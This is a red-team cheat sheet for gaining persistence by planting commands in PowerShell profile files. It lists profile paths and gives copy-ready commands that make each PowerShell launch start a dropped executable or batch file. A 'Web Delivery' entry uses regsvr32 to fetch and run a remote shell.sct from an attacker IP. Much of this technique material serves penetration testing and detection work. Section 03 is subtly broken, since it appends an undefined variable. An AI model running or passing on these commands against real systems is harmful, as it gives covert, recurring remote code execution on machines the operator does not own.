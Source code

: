 # PowerShell Profile

## 01 - Common Files Location

### 1.1 - Unix

```
$PSHOME\Profile.ps1
$PSHOME\Microsoft.PowerShell_profile.ps1
```

### 1.2 - Windows

```
C:\Users\$Env:USERNAME\Documents\PowerShell\Profile.ps1
C:\Users\$Env:USERNAME\Documents\PowerShell\Microsoft.PowerShell_profile.ps1
```

## 02 - Dropper Payload

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Start-Process "C:\tmp\pentestlab.exe"'
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

## 03 - Batch Script Dropper Payload

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
Add-Content $profile "Invoke-Item C:\tmp\launcher.bat"
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

## 04 - Web Delivery

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Invoke-Command -ScriptBlock { regsvr32.exe /s /n /u /i:http://<IP>/shell.sct scrobj.dll }'
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

---
## References

### Persistence Info

- [Persistence Info: PowerShell Profile](https://persistence-info.github.io/Data/powershellprofile.html)

### Red Team Notes

- [Red Team Notes: Powershell Profile Persistence](https://www.ired.team/offensive-security/persistence/powershell-profile-persistence)

### Pentestlab

- [Pentestlab Blog: Persistence Powershell Profile](https://pentestlab.blog/2019/11/05/persistence-powershell-profile/)

### enigma0x3

- [enigma0x3: Abusing Powershell Profiles](https://enigma0x3.net/2014/06/16/abusing-powershell-profiles/)

### Github

- [enigma0x3: PowershellProfile Macro](https://github.com/enigma0x3/PowershellProfile/blob/master/Macro)